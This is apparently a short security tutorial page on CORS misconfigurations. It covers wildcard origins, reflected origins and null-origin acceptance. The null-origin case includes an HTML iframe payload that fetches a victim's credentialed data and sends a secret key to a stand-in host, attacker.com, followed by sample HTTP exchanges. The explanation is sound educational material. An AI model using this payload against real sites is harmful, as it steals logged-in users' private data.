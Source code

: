 ```yaml
---
title: CORS Misconfiguration 
description: Introduction to CORS Misconfiguration vulnerabilites.
---
```


# CORS Misconfiguration

1. `Access-Control-Allow-Origin: *` : Allow everyone to fetch this ressource, it can be dangerous if the ressource is not intended to be public.
2. The `Access-Control-Allow-Origin` response header reflect the `Origin` request header : Same as `1.`, there are no protections.
3. `Access-Control-Allow-Origin` is `null` if the `Origin` is `null` :

You cannot set the value of the `Origin` request header using `fetch` or `XHR` because this header is not "safe".
However, this misconfiguration can still be exploited. Sandboxed elements (ex: `iframe`) sets the `Origin` header to `null` by default.

Example of exploit :

```html
<iframe sandbox="allow-scripts" src="data:text/html,
<script>
fetch('https://api.cors-null-vulnerable.com/sensitiveContent', {
    credentials: 'include'
})
.then(response => response.json())
.then(j => document.location=`https://attacker.com/exfiltration?key=${j['secret_key']}`);
</script>
"></iframe> 
```

HTTP Request headers :

```
GET /sensitiveContent HTTP/1.1
Host: api.cors-null-vulnerable.com
Cookie: session=agurne3nriezwaejpanrghq
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:93.0) Gecko/20100101 Firefox/93.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Origin: null
[...]
```

HTTP response :

```
HTTP/1.1 200 OK
Access-Control-Allow-Origin: null
Access-Control-Allow-Credentials: true
Content-Type: application/json; charset=utf-8
Connection: close
Content-Length: 149

{
  "secret_key": "12345",
}
```
